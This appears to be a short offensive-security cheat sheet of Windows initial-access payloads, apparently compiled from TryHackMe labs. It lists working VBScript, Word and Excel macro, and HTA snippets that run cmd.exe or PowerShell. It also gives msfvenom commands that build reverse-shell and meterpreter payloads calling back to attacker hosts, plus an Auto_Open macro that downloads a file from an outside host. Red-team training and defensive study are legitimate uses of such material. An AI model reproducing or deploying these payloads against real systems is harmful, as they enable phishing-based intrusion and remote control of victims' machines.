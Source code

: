 # Windows Weapons

#  VB script shell:
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
If .vbs is blacklisted run using wscript /e:VBScript with a rename to script.txt 

# Visual Basic 4 Apps 

### Word Macro shell:
```vb
Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

### HTML application:

Also known as HTA, these are dynamic html pages host with a python3 -m http.sever 1337
```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```


OR
```bash
reverse shell with netcat
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
OR 
```bash
metasploit: msfconsole -q
use exploit/windows/misc/hta_server
```

### Excel HTA

Excel HTA macro from THM Throwback

```vb
Sub HelloWorld()
    PID = Shell("powershell.exe -c Invoke-WebRequest -Uri https://ip/passwd -OutFile C:\passwd", vbNormalFocus)
End Sub

Sub Auto_Open()
    HelloWorld
End Sub
```
### Metasploit VBA

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
```
